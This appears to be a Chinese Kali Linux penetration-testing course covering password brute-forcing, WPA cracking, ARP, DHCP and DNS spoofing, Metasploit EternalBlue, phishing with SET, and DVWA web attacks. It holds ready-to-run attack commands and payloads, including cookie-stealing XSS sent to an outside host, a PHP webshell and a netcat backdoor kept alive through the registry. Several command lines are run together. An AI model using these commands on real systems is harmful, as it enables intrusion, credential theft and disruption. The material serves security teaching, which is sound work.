进行随机组合（大小写、前后缀、字母替换为数字、反转、重复等）到pass.list文件中。
Hydra/Medusa是支持AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NCP (NetWare), NNTP, PcAnywhere, POP3, PostgreSQL, rexec, rlogin, rsh, SMB, SMTP (AUTH/VRFY), SNMP, SSHv2, SVN, Telnet, VmAuthd, VNC，RDP等多种协议的密码暴破工具。
Medusa与Hydra使用类似，以下我们以Hydra为例。
注意：以下user.list文件中有admin、administrator、msfadmin、root四个示例用户，pass.list文件中有123、666666、password、msfadmin四个示例密码
hydra 10.1.74.113 smb -l administrator -P pass.list -Vhydra 10.1.74.113 rdp -L user.list -P pass.list -Vhydra 10.1.74.114 ssh -L user.list -P pass.list -V -t 4hydra 202.202.243.125 -l admin -P pass.list -t 1 -e ns -f -vV http-get /index.asphydra -l admin -P pass.list -vV -f 10.1.74.114 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"hydra -S smtp.exmail.qq.com -l wang@cqjtu.edu.cn -P pass.list -vV -e ns smtphydra -S pop.exmail.qq.com -l wang@cqjtu.edu.cn -P pass.list -vV -e ns pop3Kali hydra进行搜索）
另外，在 密码攻击 – 在线攻击 菜单中Hydry-GTK是其图形界面的暴破工具，也可用xhydra在shell启动。
如果能破解网络中路由器的登录密码，则可拥有极大的网络控制权。可用的路由器破解命令在 漏洞分析–Cisco工具集 菜单中。当然，我们需要使用traceroute或tcptraceroute列出关键路由器的IP。
另外，某些路由器不仅提供23号端口，为方便也提供Web方式管理，也即80端口也是打开的:)
以下我们介绍两个，直接在shell窗口中运行。
CAT –h 202.202.243.1 -a pass.list cisco-ocs 202.202.240.1 202.202.240.254 当前我们只能通过字典破解对WPA进行暴力破解。虚拟机安装的Kali是不能使用主机的无线网卡的，因此要么使用usb无线网卡然后分配给Kali，要么将Kali直接安装在笔记本中。
WPA无线加密的四次握手步骤：
因此，目前的思路是：抓到四次握手包，希望能破解弱的wifi密码，一般过程为：
iwconfig查看当前无线接口状态，获取接口名称，一般为wlan0airmon-ng start wlan0将无线接口置为监视monitor状态，可再用iwconfig查看，目前名称一般变为wlan0monairodump-ng wlan0mon收集周围的wifi数据，如果出现了要破解的access point则Ctrl-c终止，复制其MAC地址和channel号（假设为44:94:FC:37:10:6E，6）airodump-ng wlan0mon -c 6 --bssid 44:94:FC:37:10:6E -w data只收集该access point的数据写到data文件，一旦抓到握手数据则可终止。
我们可以同时另外运行aireplay-ng -0 3 -a 44:94:FC:37:10:6E -c 64:A5:C3:DA:30:DC wlan0mon命令，让已经通过认证的client(64:A5:C3:DA:30:DC)重新握手进行认证，以便于可以很快抓到握手数据。
aircrack-ng -w pass.list -b 44:94:FC:37:10:6E data.cap进行字典破解命令行方式，请看视频明白其过程。 aircrack-ng破解WiFi视频
图形界面的破解其实是自动集中进行上述步骤，在无线攻击 – 无线工具集菜单中运行fern-wifi-cracker按界面提示运行即可。shell中运行fern-wifi-cracker也可。
Fern破解WiFi视频
另类思路的WiFi破解（需两块无线网卡,一块用于数据捕获，一块用于伪造同名Access Point，吸引用户连接这个假的AP，得到输入的口令），大家自行学习。 另类方法破解WiFi视频
先思考问题：
明白这些问题后，则macof命令将瞬时发送大量伪造的MAC，填满子网中所有交换机端口地址列表空间。结果可能如下：
一般而言，可采用限制单个交换机端口的MAC地址数量或设置MAC地址范围进行过滤来防御。
命令如下
macof –i eth1在一个DHCP的网络环境中如WiFi环境，通过向DHCP服务器发送大量的垃圾请求，耗尽其地址池，使得DHCP服务器不能为正常的请求服务。
把10.1.74.113搭建为实验用的DHCP服务器。先远程桌面连接.113，然后下载并安装OpenDHCPServer.exe，从windows菜单中选择
Run Stand Alone启动OpenDHCPServer。
运行 yersinia –G 命令,然后点击 launch attack
，选择DHCP窗口中的 send DISCOVER packet 开始发送请求，然后选择List Attacks停止发送。此时查看DHCP服务器，可看到地址很快被分配完毕。
而这不是我们真正想干的！此时如果再选择 launch attack 窗口中的 creating DHCP server ，
则yersinia自己运行一个DHCP服务，结果是当有DHCP请求到来时，分配的是攻击者设置的相类似的网络配置，请注意返回的网关和DNS服务器地址（致命的！）
其它Yersinia用法请参考 Yersinia视频
在被欺骗主机和网关之间充当中间人，获取它们的数据。
假设网络环境如下：攻击机Kali（10.1.74.128），被骗主机（10.1.74.113），网关（10.1.74.1）
先使用以下命令启用攻击机的路由转发功能（0表示关闭）：
echo 1 > /proc/sys/net/ipv4/ip_forward 使用以下命令欺骗10.1.74.113，我（.128）是网关（10.1.74.1）：
arpspoof -t 10.1.74.113 10.1.74.1 打开另一个窗口，使用以下命令欺骗网关10.1.74.1，我（.128）是被骗主机10.1.74.113：
arpspoof -t 10.1.74.1 10.1.74.113 此时在被骗主机10.1.74.113的arp缓存中可以看到网关的MAC地址是攻击者的MAC。 在攻击主机上启动wireshark抓取被骗主机的数据，则不仅仅是密码之类，如果你能发现cookie（可使用http.cookie进行过滤），再通过cooikes工具如chrome插件EditCookie等，那你就可以代替受害者从容登录他的QQ、微博、网盘……
停止攻击后，需待缓存失效才能正常工作，此时可在被骗主机上用命令arp –d * 提前清除垃圾缓存。
嗅探/欺骗-网络欺骗 菜单中的ettercap-graphical是Linux下一个强大的抓包、协议分析工具。用命令ettercap -G也可启动
启动后，选择 Sniff 菜单中 Unified sniffing 模式，在弹出的窗口中指定接口即可进行抓包。
Arp欺骗
hosts菜单中选择Scan for hosts扫描本子网中的主机并用菜单Hosts list列出 MITM（中间人攻击Man In The Middle）菜单中选择arp position，在弹出的菜单中选择sniffing remote connection View->Connetctions查看捕获的连接，双击可查看数据 MITM（中间人攻击Man In The Middle）菜单中选择Stop mitm attack停止攻击DNS欺骗
/etc/ettercap/etter.dns文件，添加如baidu.com A 202.202.243.2之类的记录Plugins->Manage the plugins ,双击dns-spoof开始DNS欺骗 ipconfig/displaydns也可查看dns-spoof停止DNS欺骗DoS攻击（一定注意不要针对正常运行的网站！！！）
doS_attack插件，填入目标IP如10.1.74.113，伪造IP地址10.1.74.222即可 doS_attack停止DoS攻击。远程桌面连接重置10.1.74.113的Web服务器apache的状态。在MITM菜单中还可进行DHCP欺骗等，请继续探索Ettercap！！！
Metasploit是一款开源、免费的漏洞利用工具，漏洞攻击是指利用目标系统的漏洞，攻击者通过Metasploit执行远程代码。
使用Metasploit之前，我们一般需利用Nessus、OpenVAS、Nmap等扫描工具锁定目标并发现相关漏洞，下面以windows系统较新的ms17-010漏洞为例。
一般步骤
#service postgresql start #msfdb init #msfconsole msf>db_rebuild_cache msf>search ms17_010 msf>use exploit/windows/smb/ms17_010_eternalblue msf>show options msf>set RHOST 10.1.74.113 msf>set LHOST 10.1.74.128 windows/shell/reverse_tcp
即成功后主动从受害者主机连接到攻击者，提供给攻击者一个受害主机的shell，而windows/shell_bind_tcp则在受害主机上打开一个端口等待命令 msf>show payloads
msf>set payload windows/x64/meterpreter/reverse_tcp msf>exploit Metasploit工具异常强大，请继续探索！！！ Metasploit视频1 Metasploit视频2 Metasploit视频3
Armitage可看作Metasploit的图形界面版本。实际攻击中不建议使用。
一般步骤如下：
漏洞利用 – 网络漏洞利用 菜单下启动armitage或者直接使用命令armitage。注意时间可能较长，如提示启动RPC-MSFserver，选是然后等待即可Hosts->Nmap Scan->Quick Scan(OS detect)中使用MSF集成的扫描工具Nmap扫描要渗透的主机。可以指定单独的目标，也可以指定网段（带掩码），此处我们指定虚拟机的IP（扫描完成后可以在下方的控制台看到扫描结果） Attacks->Find Attacks中扫描可能的漏洞 check expoits SET即Social-Engineer Toolkit的简称。当要花费数天，数周，甚至数月时间尝试进行单纯的网络攻击时，此时我们完全可以考虑SET，欺骗某人运行某个可以给你高权限接入他们机器或设备的文件，从而达到目的
在 漏洞利用 – Social Engineering Tookit 菜单下运行setoolts或者命令setoolkit后出现SET主界面，选择SET Attack可以看到如下菜单
下面我们以所谓的鱼叉式钓鱼进行说明
另外一个选项Website Attack Vectors（Web欺骗）与上类似，但是通过克隆站点引导运行JavaApplet来中招
渗透测试中，SET是需要好好研究使用的！ SET视频1 SET视频2
请用 SumatraPDF 软件 打开该epub文档
nikto -h http://10.1.74.114/mutillidae/ -o result.html在菜单中选择或执行owasp-zap在OWASP-ZAP界面中输入url即可。可得到非常详尽但比较费时的测试结果。
漏洞扫描完成后，则可用WebScarab这个工具对目标网站的链接、网页和访问受限网页进行详细的审查、读取、记录和分析
在 Web程序 – Web漏洞扫描 菜单下启动webscarab后，默认是一个代理软件（8008），在其tool 菜单中可设置为单功能面板
代理功能-proxy
网站抓取-spider。访问某网站后，使用 Fetch Tree 可得到详细的网站目录及文件信息
与WebScarab类似，Burp Suite用于攻击web应用程序的集成平台。它包含了许多工具，并为这些工具设计了许多接口，以促进加快攻击应用程序的过程。所有的工具都共享一个能处理并显示HTTP 消息，持久性，认证，代理，日志，警报的一个强大的可扩展的框架。我们只用其免费的社区版即可。
当Burp Suite 运行后，Burp Proxy 开起默认的8080 端口作为本地代理接口。通过置一个web 浏览器使用其代理服务器，所有的网站流量可以被拦截，查看和修改。默认情况下，对非媒体资源的请求将被拦截并显示(可以通过Burp Proxy 选项里的options 选项修改默认值)。对所有通过Burp Proxy 网站流量使用预设的方案进行分析，然后纳入到目标站点地图中，来勾勒出一张包含访问的应用程序的内容和功能的画面。在Burp Suite 专业版中，默认情况下，Burp Scanner是被动地分析所有的请求来确定一系列的安全漏洞。
其功能如下：
在Web渗透测试中，Burp Suite异常强大，请好好研究使用的！ Burp Suite视频
DVWA即Damn Vulnerable Web Application之意，是故意建造的一个有许多主流Web漏洞的Apache/PHP/MySQL网站，当然也是我们Web漏洞渗透练习的最佳平台。
DVWA在两个平台中可用，其一是我们前面安装的 Metasploitable-linux-2 虚拟机，其二是虚拟机平台 Web Security Dojo ，下载及安装请参见下面的WebGoat部分。
无论使用哪种，我们都可以打开浏览器，输入 http://ip/dvwa 即可看到页面。需要注意的是：先在Security中设置难度级别为低，随着深入调整为中高；使用过程中可查看相关提示和信息；无需担心网站被搞垮，随时可进入Setup重置数据库进行恢复。
DVWA演示的漏洞简介如下（请参考教程）：
<img src="https://ICBCbank.com/transfer.do?acct=张三&amount=100000" width="1" height="1" border="0">
1' or user_id='2进行测试，只要返回结果或语法错误之类都可知有SQL注入漏洞。
1' union select first_name,password from users #，#为MySQL的注释。
<script>alert('XSS, haha')</script> <script>window.open('www.b.com?param='+document.cookie)</script>下面介绍一个稍微综合的例子，请将DVWA重置且调到中级难度：
<?
system($_POST['cmd']);
echo '<form method="post" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>';
?> <?
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/webshell.php');
?> cp rename.php rename.jpg
cp webshell.php webshell.jpg ../../hackable/uploads/rename.jpg，此时没什么反应，但实际该文件为php文件，已经执行了。做了什么？../../hackable/uploads/webshell.php/sbin/ifconfig或uname -a等命令试试DVWA网上教程（推荐）
另外一个Web渗透环境Mutillidae：Born to be Hacked 也可以学习，我们已经在地址一（.113）和地址二（.114）搭建好。网上教程如下：
对DVWA有相关认识后，强烈建议再学习WebGoat，一个基于Java的更复杂、更成体系的Web渗透环境，但WebGoat只位于Web Security Dojo，需要你安装。
Web渗透学习也推荐如下书籍
为了维持对已经渗透了系统的持续访问或控制，我们需要留门，即安装木马。该文件在正常防范的系统中常被识别为木马（本身也是！）而被删除或拦截！使用时请注意。
留门的方式有多种，渗透Web应用后加入小马大马等。在此我们以Metasploit攻破的XP系统为例（在Metasploit或Armitage中选择使用meterpreter shell）
Netcat meterpreter> upload nc.exe c:\\windows\\system32
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v YES -d "C:\\windows\\system32\\nc.exe -Ldp 22222 -e cmd.exe"
meterpreter> reboot
root@kali:~# nc 目标机IP 22222
注意：在某些情况如外界不能连接到目标机时（如有防火墙），此时可设置为让目标机主动连接控制机（也即客户和服务器端互换），还可加入时间参数等。
对某系统或环境进行大量的渗透测试后，我们需记录或做出相应的评估，即渗透测试报告。一般格式如下：
XXX渗透测试报告
一、概述
1.1 渗透测试范围
1.2 渗透测试主要内容
二、脆弱性分析方法
2.1 工具自动分析
三、渗透测试过程描述
3.1 脆弱性分析综述
3.2 脆弱性分析统计
3.3 网站结构分析
3.4 目录遍历探测
3.5 隐藏文件探测
3.6 备份文件探测
3.7 CGI漏洞扫描
3.8 用户名和密码猜解
3.9 验证登陆漏洞
3.10 跨站脚本漏洞挖掘
3.10 SQL注射漏洞挖掘
3.11数据库挖掘分析
四、分析结果总结
实验报告格式 实验报告格式
2014年5月，美国国防部声称其某些核心企业的机密被钓鱼了，FBI要通缉5名有名有姓的军人，E文好的看看这个 Mandiant对61398部队的报告 再说。
Kali Linux使用教程（英文pdf） Kali-Linux-Cookbook
用Kali进行Web渗透（英文pdf） Web Penetration Testing with Kali Linux
用Kali进行Web渗透（中文epub） Web渗透测试：使用Kali Linux中文版
Kali/BT渗透视频（1.3G） Kali/BT渗透视频
暗月系列视频